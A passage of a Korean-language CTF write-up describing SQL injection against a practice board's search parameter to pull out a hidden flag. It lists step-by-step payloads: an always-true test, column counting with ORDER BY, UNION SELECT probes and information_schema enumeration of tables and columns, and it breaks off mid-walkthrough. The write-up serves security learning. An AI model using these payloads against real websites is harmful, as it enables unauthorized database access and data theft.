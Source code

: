 해당 문제는 게시판의 `search` 파라미터에서 SQL Injection을 통해 **숨겨진 데이터(flag)** 를 추출하는 문제였습니다.

사전에 [PortSwigger Labs](https://portswigger.net/web-security/sql-injection)에서 SQLi를 학습했기 때문에 쉽게 접근할 수 있을 줄 알았는데, 생각보다 고전했습니다.  

---

## 🧪 시도 과정 및 풀이

### 🎯 시도 1 – SQL Injection이 가능한가?
```
normaltic' OR '1'='1-- 
```

✅ SQL 인젝션 성공 확인

<img src="https://github.com/user-attachments/assets/9a59b257-028f-4390-bbd1-c3f857d3c01a" width="600"/>

### 🎯 시도 2 – 컬럼 수 확인
```
normaltic' ORDER BY 1 --    ✅ 성공  
normaltic' ORDER BY 5 --    ❌ 실패
```
✅ 컬럼 수는 4개로 추정됨

### 🎯 시도 3 – 출력 컬럼 식별
```
normaltic' UNION SELECT 1,2,3,4 -- 
```
✅ 1~4 전부 출력 가능

<img src="https://github.com/user-attachments/assets/2c96a69b-2772-4aa3-b803-fa0839f7e887" width="600"/>

### 🎯 시도 4 – DB 이름 확인
```
normaltic' UNION SELECT database(),2,3,4 -- 
```
✅ DB 이름은 sqli_1

<img src="https://github.com/user-attachments/assets/27d3cde4-c5cf-4863-a971-c8866cc36c1d" width="600"/>

### 🎯 시도 5 – 테이블명 추출
```
normaltic' UNION SELECT table_name,2,3,4 FROM information_schema.tables WHERE table_schema='sqli_1' -- 
```
✅ `flag_table`, `plusFlag_Table`, `user_info` 발견

<img src="https://github.com/user-attachments/assets/b584829e-0eae-4d9b-87b2-3c41b63566fa" width="600"/>

### 🎯 시도 6 – 각 테이블의 컬럼명 추출
✅ flag_table
```
normaltic' UNION SELECT column_name,2,3,4 FROM information_schema.columns WHERE table_name='flag_table' -- 
```
<img src="https://github.com/user-attachments/assets/e75dcf42-edc2-4c78-9b7e-909bf3c237bf" width="600"/>
